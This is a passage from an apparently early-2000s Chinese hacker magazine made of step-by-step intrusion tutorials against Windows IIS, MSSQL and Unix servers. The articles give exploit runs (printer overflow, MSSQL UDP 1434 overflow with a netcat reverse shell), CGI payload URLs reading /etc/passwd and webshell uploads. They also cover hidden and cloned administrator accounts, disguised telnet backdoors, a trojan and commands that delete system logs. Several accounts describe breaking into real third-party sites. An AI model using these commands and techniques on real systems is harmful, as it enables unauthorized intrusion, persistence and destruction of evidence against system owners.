echo TSEnable = on >> c:\sql.csq
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql.csq /q
```

然后把它上传到对方机器上，如果大家可以得到对方的 Telnet 的话，也可以在 Telnet 下直接使用 copy con 命令来直接建立这个批处理文件。

接下来就是使用 at 命令来制定定时任务，使这个批处理定时运行，确定运行后，过几分钟，等待对方机器重启完毕（可以通过 ping 来检测），我们就可以使用 3389 端口和得到的用户名进行连接了。

OK！讲了这么多，我想大家以后遇到这方面的问题时应该可以轻松解决了吧！

# 一个人的战争

## 7种 DoS 攻击方法简述

佚名

- 1. **Synflood**

  该攻击以多个随机的源主机地址向目的主机发送 SYN 包，而在收到目的主机的 SYN、ACK 后并不回应，这样，目的主机就为这些源主机建立大量的连接队列；由于没有收到 ACK，所以一直维护着这些队列，这样就造成了资源的大量消耗而不能向正常请求提供服务。

- 2. **Smurf**

  该攻击向一个子网的广播地址发送一个带有特定请求（如 ICMP 回应请求）的包，并将源地址伪装成想要攻击的主机地址。子网上所有主机都回应广播包请求而向被攻击主机发包，使该主机受到攻击。

- 3. **Land-based**

  攻击者将一个包的源地址和目的地址都设置为目标主机的地址，然后将该包通过 IP 欺骗的方式发送给被攻击主机。这种包可以使被攻击主机因试图与自己建立连接而陷入死循环，从而很大程度地降低其系统性能。

- 4. **Ping of Death**

  根据 TCP/IP 的规范，一个包的长度最大为 65536 字节。尽管一个包的长度不能超过 65536 字节，但是一个包被分成的多少片段的叠加却能做到。当一个主机收到了长度大于 65536 字节的包时，就是受到了 Ping of Death 攻击，该攻击会造成主机的宕机。

- 5. **Teardrop**

  IP 数据包在网络传递时，数据包可以分成更小的片段。攻击者可以通过发送两段（或者更多）数据包来实现 TearDrop 攻击。第一个包的偏移量为 0，长度为 N，第二个包的偏移量小于 N。为了合并这些数据段，TCP/IP 堆栈会分配超乎寻常的巨大资源，从而造成系统资源缺乏甚至机器的重新启动。

- 6. **PingSweep**

  使用 ICMP Echo 轮询多个主机。

- 7. **PingFlood**

  该攻击在短时间内向目的主机发送大量 ping 包，造成网络堵塞或主机资源耗尽。

## Printer 远程溢出攻击实例

Sagi

在微软的 IIS 服务器中，printer 漏洞、idq&.ida 以及 Unicode 漏洞并列为当前 IIS 服务器中最严重的三大安全漏洞，而对于 IIS 服务器的大侵之患莫过于由以上三个漏洞发起的攻击。下面，我向大家详细地介绍一下如何利用 printer 远程溢出漏洞入侵。

我们需要一个攻击程序 iisx.exe，这是一个用于溢出中文版 printer 的程序；和一个功能强大的扫描工具，流光4.7、X-way 2.5、X-scan 2.3 都是不错的选择。本文我以 X-way 2.5 为例。

第一步，启动 X-way 2.5 进行扫描，寻找目标主机，果然找到了一台存在 printer 远程溢出漏洞的主机，如图1所示。


接下来让我们执行 iisx.exe，看一下这个程序的具体使用方法，如图2所示。


好了，接下来就是具体的攻击了：

```bash
G:\hacker>iisx **.***.***.*** 0 -p -a
send shellcode...

Now telnet to **.***.***.*** 7788

G:\hacker>
```

解释：先选择 sp0，-p bind 7788 端口，-a 添加用户 hax，密码也为 hax。如图3所示。


现在开始连接。

```bash
G:\hacker>telnet **.***.***.*** 7788

正在连接到 **.***.***.***... 无法打开到主机的连接，在端口 7788：连接失败

G:\hacker>
```

第一次溢出没有成功，如图4所示。不要灰心，我们接着来。


```bash
G:\hacker>iisx **.***.***.*** 1 -p -a
send shellcode...

Now telnet to **.***.***.*** 7788

G:\hacker>
```

我们换 sp1 试一试，如图5所示。


# 一个人的战争

好了，我们再重新连接一次，如图6所示。

```text
G:\hacker>telnet **.***.***.*** 7788
```

图 6

```text
C:\WINNT\system32>net user
```

> **配置**

我们输入的命令是不会显示在屏幕上的，所以输入的时候慢一点，仔细一些。输入完成后，连续两次回车，此时，刚输入的命令以及命令执行的结果才会显示出来。如图7所示。

接下来，添加后门帐号：

```text
C:\WINNT\system32>net user sagi /add
命令成功完成。

C:\WINNT\system32>net user sagi 13579
命令成功完成。

C:\WINNT\system32>net localgroup administrators sagi /add
命令成功完成。

C:\WINNT\system32>
```

图 7

好了，后门帐号添加成功了，如图8所示。

图 8

查看了一下刚才设置的后门帐号，如图9所示。

```text
C:\WINNT\system32>net user sagi
```

图 9

最后，还是那句老话，网管员一定要勤快点，勤打补丁。

# 一个菜鸟的实践之路——网站终结日记

听说最近我们院系里搞了个网站，很不错。因为我最近对网络安全很感兴趣，也多多少少学了一点，就决定去实地锻炼一下，顺便也检测一下院系主页的安全。

## 一、踩点

首先我在网站上瞎逛，熟悉了一下环境。打开主页，感觉很清新，很舒服，比我们学校其他院系的主页好得多了。习惯性地在网址后面加了个 default.ida 和 default.idq，返回的都是 404 出错页面，看来管理员把别的防护了，.ida 和 .idq 文件的脚本映射都关掉。

逛了一圈下来，基本上了解了整个站点的框架。主要有论坛、音乐站、下载站和聊天室。论坛是“dvbbs”的，聊天室用的是“红蜻蜓”，音乐站记得好像是亚太音乐屋的“亲亲音乐”程序免费版本，这三个地方很难有下手之处。只有下载系统没见过，估计用的也是网上的免费系统，先放一边再说；如果其它方法不能入侵，再回头来研究这个下载系统。

像我们这般菜鸟，光靠看看是得不到多少有用信息的，那就只有请出扫描器了。本人比较喜欢安全焦点的 X-scan，也没有什么特别的理由，就是觉得好用而且很少有漏报。

废话少说，开工！

本人使用的是公用电脑，怕引起不必要的麻烦，所以一般把工具都放在肉鸡上，这样有三个好处：前面的是其一，其二是免了我在局域网内使用工具的不便，其三就是保证了自己的安全。

首先登录肉鸡：

```text
telnet 210.x.x.x
```

登录成功后，进入我的工具箱。

然后用 X-scan 扫描服务器，看能不能发现什么漏洞：

```text
C:\...\xscan>xscan -host 202.x.x.x -all -p

正在加载插件
成功载入所有插件
正在检测 "202.x.x.x"
[202.x.x.x]: 正在检测“路由信息”
[202.x.x.x]: 发现“路由信息”
[202.x.x.x]: 正在检测“开放端口”
[202.x.x.x]: 端口21开放：FTP (Control)
[202.x.x.x]: 端口80开放：HTTP, World Wide Web
[202.x.x.x]: 端口8080开放：Proxy server
[202.x.x.x]: 端口443开放：Https, Secure HTTP
[202.x.x.x]: 端口445开放：Microsoft-DS
[202.x.x.x]: 端口139开放：NETBIOS-Session Service
[202.x.x.x]: 端口135开放：Location Service
[202.x.x.x]: 端口1433开放：Microsoft-SQL-Server
[202.x.x.x]: 开放端口扫描完成，发现 8
(略)
[202.x.x.x]: 正在检测"NT-Server 弱口令"
[202.x.x.x]: 发现"NT-Server 弱口令: swj(空口令)"
[202.x.x.x]: "NT-Server 弱口令"扫描完成，发现 1
[202.x.x.x]: 正在检测"NetBios信息"
[202.x.x.x]: 获取 Netbios 信息“远程注册表信息”完成
[202.x.x.x]: 建立 IPC$ 会话成功
.............（略）
[202.x.x.x]: IPC$ 会话已经结束
[202.x.x.x]: 发现 "NetBios信息"
.............（略）
[202.x.x.x]: 扫描全部完成。
```

过滤出有用的信息：

- 1. Win2000 + IIS5.0；
- 2. 有弱口令用户，但非 user 组的，不知权限如何；
- 3. 可以建立 IPC$ 空连接；
- 4. 有 FTP 和 Microsoft-SQL-Server 可以利用。

## 二、入侵

先建立 IPC$ 链接，如图1所示：

```text
C:\>net use \\202.x.x.x\ipc$ "" /user:"swj"
命令成功完成。
```

图 1

试试看能不能上传至 system32 目录下：

```text
C:\...\xscan>copy tools\netsvc.exe \\202.x.x.x\admin$\system32
拒绝访问。
已复制 0 个文件。

C:\...\xscan>
```

是我这个帐户权限低，还是它禁止远程写入？不管了，看来不能指望 IPC$ 链接了。对了，它不是开了 21 端口吗？FTP 上去看看：

```text
C:\...\xscan>ftp 202.x.x.x
Connected to 202.x.x.x.
220 zitrui Microsoft FTP Service (Version 5.0).
User (202.x.x.x:(none)): swj
331 Password required for swj.
Password:
230-ohn
230 User swj logged in.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
(略)
10-16-02 10:27AM <DIR> down
10-23-02 08:08PM <DIR> index
06-04-02 03:47PM 9839 index.asp
.............（略）
10-22-02 05:39PM <DIR> news
04-03-02 05:32PM <DIR> paper
.............（略）
226 Transfer complete.
ftp: 994 bytes received in 0.00 seconds 994000.00 Kbytes/sec.
ftp>
```

我心中这时候不禁一阵狂喜！凭经验刚才对网站的观察，我一看就知道这个目录就是 Web 站点的目录。看来这是开启给管理员新主页用的。先看看有没有写权限：

```text
ftp> put tools\cmdasp.asp \index\f_web.asp
200 PORT command successful.
150 Opening ASCII mode data connection for /index/f_web.asp.
226 Transfer complete.
ftp: 1276 bytes sent in 0.00 seconds 1276000.00 Kbytes/sec.
ftp>

226 Transfer complete.
ftp: 32768 bytes sent in 0.00 seconds 32768000.00 Kbytes/sec.
ftp>
```

Oh，My God！我马上打开浏览器，在地址栏输入 http://202.x.x.x/index/f_web.asp（把 webshell 改名为 f_web.asp 是为了使它能更好地隐藏起自己）。马上出现了那个可爱的小框框！如图2所示：

图 2

虽然权限还不够大，但毕竟可以做很多事情了，这样就得到了一个 webshell。突然想起来，刚才 FTP 上去用 dir 命令时并没有看见论坛和聊天室的目录。那论坛和聊天室在什么地方呢？看来是用了虚拟目录。先找到它，说不定看了论坛数据库还能试出 administrator 的密码呢！菜鸟 Hacker 就得有这种不怕烦的精神。先看 C:\，在 webshell 中输入 dir c:\，得到如图3所示结果：

图 3

找到了！

我找出论坛数据库的路径，用浏览器把数据库下载了下来。打开数据库一看，密码字段没有加密过。找出管理员的密码一个个试，都不是 administrator 的密码，看来这一步又走不通了。

回头看了看 FTP 目录，心想要是 Scripts 目录也在 FTP 根目录下就好了，这样就可以用 ispc 连接 idq.dll 得到 System 权限了，可是我刚才看了看，FTP 根目录是 D 盘，咳~~嗨！！！有了，我不是有 webshell 吗？呵呵……这回你死翘翘了，我盯着屏幕一阵坏笑……

```text
ftp> put tools\idq.dll \index\idq.dll
200 PORT command successful.
150 Opening ASCII mode data connection for /index/idq.dll
```

再在 cmdasp 中输入如图4所示命令：

图 4

OK！现在可以用 ispc 连接，如图5所示：

```text
C:\>ispc /scripts/idq.dll

Start to connect to the server...
We Got It!
Please Press Some <Return> to Enter Shell...

Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985 - 2000 Microsoft Corp.

C:\WINNT\system32>
```

在命令提示符中输入如图6所示命令：

```text
C:\WINNT\system32>net user user_system loveyou /add

C:\WINNT\system32>

C:\WINNT\system32>net user user_system loveyou /add
命令成功完成。

C:\WINNT\system32>net localgroup Administrators user_system /add

C:\WINNT\system32>

net localgroup Administrators user_system /add
命令成功完成。

C:\WINNT\system32>
```

这些命令的含义想必不用我解释大家也清楚的。我之所以用用户名 user_system，是觉得这样隐蔽性比较好。

## 三、制作后门

取得胜利，为保留战果，当然得为自己开个后门了（我无意破坏，只为方便以后观察）。可是留什么后门，怎么留后门呢？用木马？肯定会死在杀毒软件之手。对了，帐号我加了，估计管理员一时也发现不了，我现在要解决的是下次怎么方便地进去。这时候我想到了以前在网上看到过的一个修改 telnet 做后门的方法，姑且试一试：

- 1. 去掉 NTLM 认证；
- 2. 将 telnet 以其它服务的形式打开；
- 3. 改 telnet 端口。

第一步我用流光工具箱里的 ntlm.exe。把 ntlm.exe 先用 FTP 上传到 index 目录，在命令提示符中键入如图7所示命令：

图 7

再在命令提示符中键入：**ntlm**。OK 了！

第二步：用 NT 工具箱的 **instsrv**

```text
instsrv SystemTime c:\winnt\system32\tlntsvr.exe
```

意思是把 telnet 服务程序以 SystemTime 服务运行，我想这样很容易骗过管理员。

第三步：用 **tlntadmn.exe**

- 0) 退出这个应用程序
- 1) 列出当前用户
- 2) 结束一个用户的会话
- 3) 显示／更改注册表设置
- 4) 开始服务
- 5) 停止服务

请键入一个选项的号码 [0 -- 5] 以选择该选项：**3**

- 0) 退出这个菜单
- 1) AllowTrustedDomain
- 2) AltKeyMapping
- 3) DefaultDomain
- 4) DefaultShell
- 5) LoginScript
- 6) MaxFailedLogins
- 7) NTLM
- 8) TelnetPort

请键入一个选项的号码 [0 -- 8] 以选择该选项：**8**

TelnetPort 的当前值 = 23  
您确实想更改这个值吗？[y/n] y  
TelnetPort [当前值=23]：**1725**

只有当 Telnet 服务重新开始后设置才会生效。启动 telnet 服务：

```text
net start SystemTime
```

一切 OK！试试看：

```text
telnet 202.x.x.x 1725
```

登录成功！

## 四、清扫现场

逗留了这么久，该走人了。可是弄得垃圾这么多，不好意思就拍拍屁股就走了吧！

```text
del C:\winnt\system32\logfiles\*.*
del C:\winnt\system32\config\*.evt
del C:\winnt\system32\dtclog\*.*
del C:\winnt\system32\*.log
del C:\winnt\system32\*.txt
del C:\winnt\*.txt
del C:\winnt\*.log
```

IIS 日志用小榕的 cleaniislog.exe，上传后执行：Cleaniislog 210.x.x.x

还有 FTP 日志，我一时找不到工具，手动删除当天日志又有点麻烦，只好等明天趁你上来再删除今天的 FTP 日志了，希望管理员今天不要发现，阿门！

最后删除我用过的工具：

```text
del d:\index\cleaniislog.exe
del d:\index\ntlm.exe
del c:\winnt\system32\ntlm.exe
del c:\winnt\system32\cleaniislog.exe
```

把 f_web 先留着，以便以后观察。

## 五、总结

回顾这次入侵，可以说没有太多技术性的东西在内。我接触网络安全没多久，还是 tool user，用的是前辈们的经验。可是为什么还是能成功呢？问题应该在管理员身上，如果没有管理员的“默许”，我想，我至少是不可能这么容易就进去的！

## Unix、Linux 常见的入侵方法浅论

Sagi

现在介绍入侵 Windows 系统的文章有很多，但介绍入侵 Unix/Linux 系统的文章却很少，这不能不说有一点遗憾。其实，入侵一个 Unix/Linux 系统，远没有大多数朋友想像中的那么难，甚至有时比入侵一个 IIS 服务器还要简单。当然，这有一个前提条件，就是你使用的系统平台为 Unix/Linux，或者你有一个 Unix/Linux 攻击跳板。

那么，对于许多使用 Windows 系统的朋友来说，是不是就没有入侵的方法了呢？答案是否定的，只不过比起使用 Unix/Linux 来，受到了很大的限制，许多远程溢出攻击程序都无法使用，入侵的成功率低了许多而已。

就当前而言，使用 Windows 系统平台入侵 Unix/Linux 系统的方法大致有如下几种。

## 一、利用 Unix/Linux 系统中的 CGI 漏洞

例如：

```text
http://ip/cgi-bin/whois_raw.cgi?fqdn=%0Acat%20/etc/passwd
http://ip/cgi-bin/faxsurvey?/bin/cat%20/etc/passwd
http://ip/cgi-bin/htmlscript?../../../../../../etc/passwd
```

如果我们在扫描中真的能找到存在这些漏洞的 Unix/Linux 系统，那我们真的中奖了，我们可以利用这些漏洞来执行命令，具体的操作还要看我们拥有的权限。

不过，靠这些 CGI 漏洞来入侵的方法是有很大的随机性的。总之，自从我接触网络安全技术以来还没有中过这类“大奖”呢！没准你的运气会比我好。

## 二、利用 FTP 的弱口令

我这么一讲，大家都会明白吧，就是利用扫描程序探测 FTP 服务器的弱口令，如果能幸运地探测出来的话，就可以利用这个账号入侵 FTP 服务器，另外就是用 Telnet 连接 23 端口，用该账号尝试登录，通常我们会成功的。我每一次入侵 Unix/Linux 系统都是使用这个方法，不过现在的运气好像没那么好了，总是探测不到。

## 三、利用 finger 漏洞

在这儿，得先说一下 finger 程序，在 WinNT/2000/XP 以及 Unix/Linux 中都有一个 finger 程序，利用这个程序可以得到系统当前登录的用户列表，也可以得到远程主机上当前登录的用户列表，以及判断系统中是否存在一个特定帐号，不管此帐号当前有没有登录。

大致用法就是：finger @ip 和 finger 用户名@ip。我们首先用端口扫描工具去扫 79（finger）端口，然后用 finger 探测，幸运的话就会得到对方当前登录的用户列表以及存在的其他帐号。然后就是猜解其中的弱口令，来进行对系统的登录。理论上讲，我们得到的用户列表越多，成功的可能性就越大，反之，可能性就越小。

这种方法与 FTP 的弱口令相比，有相似之处，都是利用的弱口令；不同之处在于：探测 FTP 的弱口令使用的是一些固定的用户帐号及常用密码，而利用 finger 漏洞，我们得到的是对方系统中真实存在的用户帐号，然后再根据这些帐号猜测弱口令。

如果我们使用的是 Unix/Linux 系统平台的话，除了以上的三种方法外，还有以下的方法。

## 四、利用 rhosts 及 hosts.equiv 漏洞

在第六期的“Unix 系统中最常见的安全问题”一文中，我曾简单地提到过这个问题，黑客通常会扫描 513（rlogin）、514（rsh）端口，然后检测系统，如果系统中存在 .rhosts 漏洞的话，入侵将会变得很简单。

```text
rlogin host或IP [-l username]
rsh host或IP [-l username] [command]
```

rsh 如缺省 command 项的话，执行结果将与 rlogin 一样，rlogin 及 rsh 执行后，远程系统将会把我们的 hostname 与 username 向对方 .rhosts 文件中的 hostname 及 username 进行确认，如存在的话，我们便可以注册成功，在远程主机上执行命令。

在 Internet 上会有一些图省事的管理员使用“+”来代替 .rhosts 及 hosts.equiv 文件中的 hostname 及 username，更多的则是黑客入侵后留下的一种后门。

## 五、利用远程溢出漏洞

在 WinNT/2000 中存在很多远程溢出漏洞，在 Unix/Linux 系统中也不例外。在安全焦点（www.xfocus.net）上就有许多 Unix/Linux 的远程溢出攻击程序，这些程序都是基于 Unix/Linux 系统平台的，在 WinNT/2000/XP 下是无法使用的，我的一个建议就是快快升级你的系统，让 Win2000 与 Linux 共存吧！

最后补充一下，除了以上的方法外，黑客有时还会入侵 FTP 服务器、SMTP 服务器，甚至使用暴力破解用户密码，继而非法进入系统，不过像这种既费时、效率又不高的办法，我是不太喜欢的。

蓝狐狸：

现在许多入侵文章都只简单地写些某个溢出工具如何去攻击，对利用的漏洞原理却很少提及，使得许多新手“只知其然，而不知其所以然”，所以在写这次的入侵过程前，我觉得还是有必要简单地介绍一下漏洞原理。

一般常见的 MSSQL 入侵思路，是用 sa 空密码或先猜解出 SQL 密码，然后用 sqlexec 之类的工具连上去。不过这种方法已经很老了，这里要讲的是一个最近流行的 MSSQL 新漏洞：Microsoft SQL Server 2000 Resolution（服务远程缓冲区）溢出漏洞；利用这个漏洞可以直接取得系统权限。下面是对这个漏洞的具体描述：

## 1、MSSQL 漏洞具体描述

Microsoft SQL Server 2000 支持在单个物理主机上伺服多个 SQL 服务器的实例，每个实例操作需要通过单独的服务，不过多个实例不能全部使用标准 SQL 服务会话端口（TCP 1433）；所以 SQL Server Resolution 服务监听在 UDP 1434 端口，提供一种使客户端查询适当的网络端口用于特殊的 SQL 服务实例的途径。而 Microsoft SQL Server 2000 的 Resolution 服务对用户提交的 UDP 包缺少正确的处理，远程攻击者可以利用这个漏洞进行基于栈的缓冲区溢出攻击。当 SQL Server Resolution 服务在 UDP 1434 端口接收到第一个字节设置为 0x04 的 UDP 包时，SQL 监视线程会获取 UDP 包中的数据并使用此用户提供的信息来尝试打开注册表中的某一键值，如发送 \x04\x41\x41\x41\x41 类似的 UDP 包，SQL 服务程序就会打开如下注册表键：

```text
HKLM\Software\Microsoft\Microsoft SQL Server\AAAA\MSSQLServer\CurrentVersion
```

攻击者可以通过在这个 UDP 包后追加大量字符串数据，当尝试打开这个字符串相对应的键值时，会发生基于栈的缓冲区溢出，通过包含“jmp esp”或“call esp”指令的地址覆盖栈中保存的返回地址，可导致 SQL Server 进程以系统权限在系统中执行任意指令，受这个漏洞影响的系统有：Microsoft SQL Server 2000 SP0/SP1/SP2/Desktop Engine。

> 注意：其实这个漏洞在 2002 年 8 月就被公布了，在时间上它不算是最新的了，在 Unicode、ida、printf 这些漏洞中它算是流行较广的；而且目前网上许多源程序都存在对 SP3 打了补丁版本的 SQL 利用这种漏洞成功率很低甚至无效。利用这个漏洞成功的前提是版本较低或未打补丁，以及必要的系统权限；因此此漏洞危害虽大，带有一定适用性，不能下结论说其破坏性绝对。

## 2、利用工具溢出 MSSQL 漏洞

好了，下面进入本文的正题，发现这个漏洞的 David Litchfield 提供了一个 MSSQL2000 Remote UDP Exploit 攻击代码，但这个代码有问题，成功率不高。红盟的 lion 对这段代码进行了改进和优化，增加了将溢出后得到的 shell 回显到本地主机的功能，还将此代码编译成了 Win 系统下的可执行程序 sql2.exe，这样可方便新手们了。啊啊……我就用这个 sql2.exe 介绍如何用这个漏洞攻取 Win2000 系统，不过真正想学习的新手们最好能仔细研究一下源代码。

# 一个人的战争

首先，随便在网上寻找几台开放了 MSSQL 服务的主机，打开 superscan，这是一个速度超快的最优秀的端口扫描器，大家应该很熟悉了，我就不多说了，填入要扫描的 IP 段，MSSQL 服务对应的端口是 1433，所以再在扫描类型中选择“所有端口从”，并填入“1433 到 1433”，开始扫描，不一会儿就找到了许多，如图 1 所示。


图 1

然后把 sql2.exe 和 nc.exe 拷贝到 C 盘下，顺便说一下，nc.exe 就是“瑞士军刀”netcat，它是一个非常经典、小巧而多功能的后门工具，有 UNIX 和 WIN 两个版本，我们这里用的是 WIN 版本。

注意：NC 好像不能在 WINXP 下使用。

大家使用时，杀毒软件可能会报警，没关系，把杀毒软件关了。好，打开第一个 DOS 窗口，输入：

```text
C:\>nc -l -p 53
```

参数 l 表示让 nc 监听本地端口，加上 -p 53 表示在本机上监听 53 端口，这样 nc 就开始工作了，如图 2 所示。


图 2

当然你也可以让它监听其它端口，只要不与已用的端口重复就行。关于 nc 的具体用法大家可以输入：nc -h 查看。

接着，再开一个 DOS 窗口，先看看 sql2.exe 的用法，输入：


看明白了吗！如果你要攻击一个开了 1433 的主机，只要输入以下信息就行：

```text
[被攻击的主机IP] [被攻击开1433的主机的源IP地址] [本地机的IP地址] nc监听的端口 [被攻击主机的补丁版本]
```

如果你不知道你自己本地机器的 IP，那可以在 DOS 下输入：ipconfig 命令，在“IP Address”显示的就是你的 IP 地址；被攻击主机打的补丁版本要我们自己猜测，一般的 Win2000 都打了 sp1 或 sp2，我们攻击时就先用 1 测试，如果 1 不成功的话，你就再试试 0 或 2。好，从刚才扫描到的主机里随便选一台，输入：

```text
C:\sql2 61.x.x.x 211.x.69.174 53 1
Packet sent!（发送成功）
```

这样溢出数据包就发出去了，如图 3 所示。如果补丁信息正确而对方又没打补丁，那就恭喜你了。


图 3

## 添加帐户

溢出成功后得到的 shell 已经重定向到你本地主机的 53 端口上了，快去看看刚才打开的用于 NC 监听的第一个 DOS 窗口，呵呵，看到了吗？如图 4 所示。


图 4

“Microsoft Windows 2000……C:\winnt\system32>”，这就是肉鸡的命令行操作符呀！你已经进入它的机器了，不信你 dir 看看它硬盘里的东西，不是你自己的吧！呵呵，既然进来了总得干点事情吧！为防止掉线，先添加一个用户了：

```text
C:\winnt\system32>net user hacker 111111 /add
The command completed successfully.
C:\winnt\system32>net localgroup administrators hacker /add
```

这样我们就成功增加了一个密码为 111111、权限为管理员的 hacker 用户。不过大家别学我，我这是为了方便，用过就算了，像这样用增加用户的方法留后门很容易被管理员发现的。如果你真的想用 NT 帐户留作后门，可以用添加“隐身帐号”或“克隆”管理员帐号的方法。

添加“隐身帐号”的方法是这样的，先增加一个带特殊符号的帐户，例如“$s”这类的帐户。因为某些系统对于“$”字符串会过滤，这使得这些帐户用 net user 命令无法看到，但是如果打开电脑管理下的用户，还是可以看得一清二楚。不过我们只要在注册表找到这个“$s”帐户对应的 ID 值，具体位置在 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users，将“$s”这个帐户对应的 ID，例如 0x4eb 键值改为一个不存在的 ID，如改成 0x6eb，那么这个“$s”的帐户就没有了 ID。重启后，用户管理界面里就看不到这个帐户了。

至于“克隆系统帐户”，我们可以借助小榕写的 ca.exe，它可以将一个像 guest 这样的低权限用户克隆为 Administrator，而且在用户管理中查看不出来。例如这个系统中有一个管理员帐号是 admin，密码是 123456，那么只要：

```text
C:\winnt\system32>ca \\127.0.0.1 admin 123456 （新密码）

ca.exe v2.0 NT clone local administrator by 小榕IP
Clone Administrator by netXeyes 2002/04/06
Written by netXeyes 2002 dansnow@21cn.com
Connect 127.0.0.1 OK
Get SID of guest OK
Preparing OK
Processing OK
Clean Up OK
```

这样 guest 就成为了超级用户，并具有和 Administrator 同样的设置（桌面、菜单等等）。

## 4 查看主机信息

好了，回到我们的正题，再看看它的网卡信息和网络连接、开放的端口等情况：

```text
C:\WINNT\system32>ipconfig /all
ipconfig /all
Windows 2000 IP Configuration

Ethernet adapter 本地连接:
Connection-specific DNS Suffix
Description 3Com EtherLink XL 10/100 PCI For Complete PC Management NIC (3C905C-TX)
Physical Address 00-04-75-95-48-98
DHCP Enabled No
IP Address 61.*.*.*
Subnet Mask 255.255.255.0
Default Gateway 61.*.*.*
DNS Servers 61.*.*.*
```

只有一块网卡，居然不连内网，进不了内网了，算了，再看下一个：

```text
C:\WINNT\system32>netstat -a

TCP 61.*.*.73:80 61.*.69.67:3680 LAST_ACK
TCP 61.*.*.73:80 202.*.150.85:2086 ESTABLISHED
TCP 61.*.*.73:80 210.*.112.1:53251 CLOSING
TCP *:1433 0.0.0.0:0 LISTENING
TCP 127.0.0.1:1433 0.0.0.0:0 LISTENING
```

啊啊，这台机子居然还有 WEB 服务？打开浏览器看看，原来是一个商业公司的主页，咱不是破坏狂，当然不会去改它的主页。接着看了看硬盘里的文件：

```text
C:\WINNT\system32>dir /ah /s /w d:\
C:\WINNT\system32>dir /ah /s /w e:\
```

发现 Web 页在 E 盘 www 文件夹下，再看了看共享资源和有哪些系统用户：

```text
C:\WINNT\system32>net share
```

啊啊，我们可以看到所有的默认共享都开着，如图 5 所示，我们可以在本地用 hacker 帐户 net use 命令进行网络硬盘映射哦。再看系统用户：


```text
C:\WINNT\system32>net user

ACTUser Administrator ASPNET
Guest IUSR_YUANJS IWAM_YUANJS
NetShowServices SQLDebugger TsInternetUser
VUSR_YUANJS VUSR@YUANJS1 hacker
```

用户不多，我们的那个 hacker 好像特别显眼哦，不过很快就会把它删掉了。

## 5 上传工具

系统信息查看得差不多了，没什么好玩的了，下载工具吧！

```text
C:\winnt\system32>ftp 211.*.*.*
Connected to 211.*.*.*
220 mail FTP server (SunOS 5.7) ready

Name (2k.*.*.136:root): fox
331 Password required for fox.
Password:
230 User fox logged in.

ftp> cd /usr/bin/.fox
250 CWD command successful.

ftp> bin （设置传输模式为二进制）
200 Type set to I.

ftp> mget ca.exe elsave.exe
200 PORT command successful.
......
```

好，要用的工具下来了，做个后门，清理日志准备走人了。ca.exe 上面已经介绍过了，这里就不说了，elsave.exe 是小榕写的一个删除日志清除工具。还有，一个 wolf.exe 是安全焦点出的命令行下的木马，它集 telnet、文件传输、FTP 服务、键盘记录、Sniffer、端口转发等功能于一身，是个好东西，运行后可以直接 telnet 上去操作。运行 wolf 木马：

```text
C:\winnt\system32>wolf -listen 20000
```

这样，wolf 就监听 20000 端口，等待远程机器连接。当然如果你喜欢图形界面操作，这里可以用像冰河等图形控制的木马做后门，甚至还可以启动这台 Win2000 Server 的 3389 端口 TermService。

## Telnet 后门设置

想必大家都很熟悉 Telnet 服务吧，Windows 系统在默认情况下都安装了 Telnet 的客户端，而 WinNT 以下版本更是自带了 Telnet 的服务，也正因如此，Telnet 也成为了一种较为普遍的后门设置方法。下面，我就来讲述一下在 Windows 系统下的 Telnet 后门设置的一些方法和技巧。

## 开启对方的 Telnet

- 1. 建立 IPC 连接，对方开启 Task Scheduler 服务  
  这样的话，我们可以通过计划任务来开启对方的 Telnet 服务，方法很简单：

```text
at \\ip time net start telnet
```

其实就是利用命令行下的 net start telnet 命令来启动对方的服务，如图 1 所示。


- 2. 直接控制对方“服务”（建议局域网内入侵使用）  
  利用控制台（MMC）：“开始”→“运行”→“mmc”，然后确定。在对话框中点击“控制台”→“添加/删除管理单元”→“添加”→“服务”→“添加”→“另一台计算机”，填上对方的 IP 地址，格式如：\\192.168.0.1，然后点“完成”，这时候控制对方的服务像控制自己的服务一样方便了，随便你开启哪个服务，当然也包括 Telnet 了。

当然，也可以使用终端服务，只要进行如下操作：

```text
C:\winnt\system32>echo [Components] > c:\winnt\startTS
C:\winnt\system32>echo TSEnable = on >> c:\winnt\startTS
C:\winnt\system32>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\winnt\startTS /q /r
```

用 Sysocmgr.exe 程序安装并启动终端服务，等这台服务器重新启动后，就可以用我们 hacker 帐户“正大光明”地从 3389 登录了，当然这容易被发现。

# 删除日志

最后删除刚才我们加的那个 hacker 帐号，并清理日志：

```text
C:\winnt\system32>net user hacker /del

elsave -s \\127.0.0.1 -l "application" -C
...
elsave -s \\127.0.0.1 -l "system" -C
...
elsave -s \\127.0.0.1 -l "security" -C
```

好了，这样我们就成功清除应用程序日志、系统日志、安全日志了。OK，关闭 DOS 窗口，探索游戏结束了！

# 隐藏后门

- 1、登录方式

Telnet 在默认状况下是使用 ntlm 验证方式进行验证的，虽然有很多方法取消对方的 ntlm 验证，但是使用起来并不是很方便，所以修改登录方式是必要的。

首先要了解管理 Telnet 服务的命令 tlntadmn.exe（如图 2 所示），这个工具可以通过几个数字的选择来改变 Telnet 服务的一些默认值，当然，如果想取消对方的 ntlm 验证，在这里也是可以做到的。


在这里，引用以前《X档案》里的一篇取消对方 Telnet 的 ntlm 验证的方法，大概方法再简单叙述一下，首先建立一个文本，这个文本 tl.txt 中包含：3、7、y、0、y、0、0，每个数字或是字母都各占一行，后边跟回车，如下图 3 所示。

然后上传这个文本到对方机器的硬盘内（例如上传至对方 C 盘）。指定计划任务，使用命令 tlntadmn < c:\tl.txt 来取消对方的 ntlm 验证。计划任务格式为：

```text
at \\ip time tlntadmn<c:\tl.txt
```

过一会儿，等计划任务执行后，我们再 Telnet 到对方主机上，会发现已经不是 ntlm 验证了，而是我们习惯的登录方式，即输入用户名和密码的方式进行验证登录。我想大家既然能入侵对方，那么拿下对方的 administrator 应该不是问题吧？这里我们就用 administrator 登录，然后我们就算是夺取了 root shell 了。

> **注意：**修改过 Telnet 设置后要重新启动 Telnet 服务才可以生效。

- 2、修改端口

